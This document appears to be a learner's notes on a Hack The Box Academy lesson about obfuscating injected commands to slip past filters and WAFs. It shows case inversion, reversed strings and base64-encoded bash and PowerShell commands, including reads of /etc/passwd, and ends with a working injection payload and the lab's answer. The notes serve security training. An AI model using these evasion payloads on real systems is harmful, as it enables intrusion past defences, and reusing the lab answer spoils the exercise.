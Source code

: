 ﻿---

In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

---

## Case Manipulation

One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g.`WHOAMI`) or alternating between cases (e.g.`WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell-session
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```shell-session
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

As we can see, the command did work, even though the word we provided was (`WhOaMi`). This command uses`tr` to replace all upper-case characters with lower-case characters, which results in an all lower-case character command. However, if we try to use the above command with the`Host Checker` web application, we will see that it still gets blocked:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_3.jpg)

`Can you guess why?` It is because the command above contains spaces, which is a filtered character in our web application, as we have seen before. So, with such techniques,`we must always be sure not to use any filtered characters`, otherwise our requests will fail, and we may think the techniques failed to work.

Once we replace the spaces with tabs (`%09`), we see that the command works perfectly:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_4.jpg)

There are many other commands we may use for the same purpose, like the following:


```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Exercise: Can you test the above command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?

---

## Reversed Commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing`imaohw` instead of`whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:


```shell-session
smoothment@htb[/htb]$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

 Advanced Command Obfuscation

```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

We see that even though the command does not contain the actual`whoami` word, it does work the same and provides the expected output. We can also test this command with our exercise, and it indeed works:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_5.jpg)

Tip: If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.

The same can be applied in`Windows.` We can first reverse a string, as follows:

```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

---

## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like`base64` (for b64 encoding) or`xxd` (for hex encoding). Let's take`base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):


```shell-session
smoothment@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to`bash` to be executed (i.e.`bash<<<`), as follows:

```shell-session
smoothment@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

Tip: Note that we are using`<<<` to avoid using a pipe`|`, which is a filtered character.

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_6.jpg)

Even if some commands were filtered, like`bash` or`base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like`sh` for command execution and`openssl` for b64 decoding, or`xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:


```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from`utf-8` to`utf-16` before we`base64` it, as follows:

```shell-session
smoothment@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with`Bash` or`PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

# Question
---


![Pasted image 20250205144449.png](../../../../IMAGES/Pasted%20image%2020250205144449.png)

We can do the following payload:

```
127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

```ad-important
#### Breakdown
---
1. **Base64 Encoded Command** 
 The original command`find /usr/share/ | grep root | grep mysql | tail -n 1` is encoded to: 
 `ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK`.
 
2. **Decode and Execute**
 
 - `base64${IFS}-d`: Decodes the Base64 string (using`${IFS}` for space).
 
 - `bash<<<`: Passes the decoded command to`bash` for execution.

```

We get the following output:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
/usr/share/mysql/debian_create_root_user.sql
```

Answer is `/usr/share/mysql/debian_create_root_user.sql`

